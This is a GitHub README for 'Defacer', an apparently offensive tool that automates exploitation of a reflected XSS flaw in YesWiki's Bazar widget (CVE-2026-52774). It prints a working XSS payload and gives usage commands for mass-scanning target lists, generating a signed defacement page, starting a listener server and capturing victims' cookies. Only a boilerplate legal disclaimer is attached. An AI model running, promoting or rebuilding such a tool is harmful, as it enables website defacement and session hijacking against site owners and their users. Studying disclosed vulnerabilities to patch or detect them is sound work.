

<div align="center">

# 🚀 CVE-2026-52774 — YesWiki Bazar Widget Reflected XSS

### Automated Exploitation Framework with Defacement

<!-- BADGES -->
<p align="center">
  
  
  
  
  
  
</p>

<!-- STATS -->
<p align="center">
  
  
  
  
</p>

<!-- DESCRIPTION -->
<h3>
  ⚡ 100% Automated Exploitation — Detection → Exploitation → Defacement → Exfiltration
</h3>

</div>

## 📌 Description

<div align="center">

### Automated Exploitation Tool for CVE-2026-52774

**Defacer** is an automated exploitation tool targeting **CVE-2026-52774** in **YesWiki Bazar Widget**. It automates the entire process:



</div>

### ✨ Key Features

| Feature | Description | Status |
|---------|-------------|--------|
| 🔍 Auto Detection | Automatically detects YesWiki version | ✅ |
| 🎯 Enumeration | Finds valid Bazar form IDs | ✅ |
| ⚡ XSS Testing | Tests for XSS vulnerability | ✅ |
| 🎨 Defacement | Generates styled defacement page | ✅ |
| 📡 Auto Server | Starts HTTP server automatically | ✅ |
| 🍪 Exfiltration | Captures cookies automatically | ✅ |
| 📊 Mass Scan | Scans multiple targets simultaneously | ✅ |

---

## 🔍 Vulnerability

<div align="center">

| Property | Value |
|-----------|--------|
| **CVE ID** | CVE-2026-52774 |
| **CVSS Score** | 6.1 (Medium) |
| **CWE** | CWE-79 (XSS) |
| **Type** | Reflected XSS |
| **Plugin** | YesWiki Bazar Widget |
| **Vulnerable Versions** | < 4.6.6 |
| **Patched Version** | 4.6.6+ |

</div>

### 📋 Technical Details

```python
# Injection Point
Injection: query param → strip_tags() → data-iframeUrl attribute

# Payload
<iframe src="?wiki=NoSuchPage/widget&id=1&query=1"onmouseover="alert(document.domain)"">
```

### 🔄 Exploitation Flow

```
1. Version Detection
   ↓
2. Bazar Extension Check
   ↓
3. Form Enumeration
   ↓
4. XSS Testing
   ↓
5. Defacement Page Generation
   ↓
6. Automatic Server Start
   ↓
7. Cookie Exfiltration
```

---

## ⚙️ Installation

<div align="center">

### Prerequisites

| Dependency | Version | Installation |
|-----------|---------|--------------|
| Python | 3.8+ | [python.org](https://python.org) |
| requests | 2.28+ | `pip install requests` |
| urllib3 | 1.26+ | `pip install urllib3` |

</div>

```bash
# 1. Clone the repository
git clone https://github.com/r00thex/ROot-society-defacer-main.git

# 2. Install dependencies
pip install -r requirements.txt

# 3. Verify installation
python main.py --help
```

---

## 🚀 Usage

### 🎯 Single Target

```bash
# Full automated exploitation
python main.py -t https://target.com

# With custom port
python main.py -t https://target.com --server-port 9999

# With custom hacker name
python main.py -t https://target.com --hacker-name "YourName"
```

### 📊 Mass Scan

```bash
# Scan a list of targets
python main.py --targets list.txt

# With 10 threads
python main.py --targets list.txt --threads 10
```

### 📝 list.txt Format

```txt
# YesWiki Targets
https://example1.com
https://example2.com
https://example3.com
# Comments start with #
```

### 🔧 All Options

```bash
Options:
  -t, --target          Target URL
  --targets             Targets file (default: list.txt)
  --auto-server         Auto-start HTTP server (default: on)
  --server-port         HTTP server port (default: 8888)
  --timeout             Request timeout (default: 10)
  --max-id              Maximum form ID (default: 30)
  --deface-output       Defacement output file
  --hacker-name         Hacker name for defacement
  --no-color            Disable colored output
```

---

## 🎨 Defacement Page

<div align="center">

### Page Features

| Effect | Description |
|-------|-------------|
| 💀 Animated Skull | Floating animation with shadow |
| 🌧️ Matrix Rain | Matrix-style code rain |
| ⚡ Glitch Effect | Glitch effect on title |
| 💚 Neon Glow | Neon glow on name |
| 📊 Progress Bar | Animated progress bar |
| 📱 Responsive | Mobile and desktop compatible |
| 📢 Telegram Links | Integrated social links |

</div>

### 🔧 Customization

```python
# Change hacker name
--hacker-name "YourName"

# Change output file
--deface-output "custom.html"

# Change server port
--server-port 8888
```
### ⚠️ LEGAL WARNING ⚠️

<p align="center">
  
</p>

> **This tool is intended for EDUCATIONAL and AUTHORIZED security testing purposes ONLY.**
>
> Using this tool against systems without explicit authorization is **ILLEGAL**.
>
> The author is not responsible for any malicious or illegal use of this tool.
>
> Only use it on systems you own or for which you have written permission to test.

</div>

---

## 📄 License

<div align="center">

```
MIT License

Copyright (c) 2024 ROot society

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

</div>

---

## 🏆 Credits

<div align="center">

| Contributor | Role |
|-------------|------|
| **ROot hex** | Lead Developer |
| **LinxProdXs404** | Support & Testing |
| **ULP Team** | Resources |

### ⭐ If this tool was helpful, don't forget to leave a star!

<p align="center">
  <a href="https://github.com/HackfutSecRoot/Defacer">
    
  </a>
  <a href="https://github.com/HackfutSecRoot/Defacer/fork">
    
  </a>
  <a href="https://github.com/HackfutSecRoot/Defacer/subscription">
    
  </a>
</p>

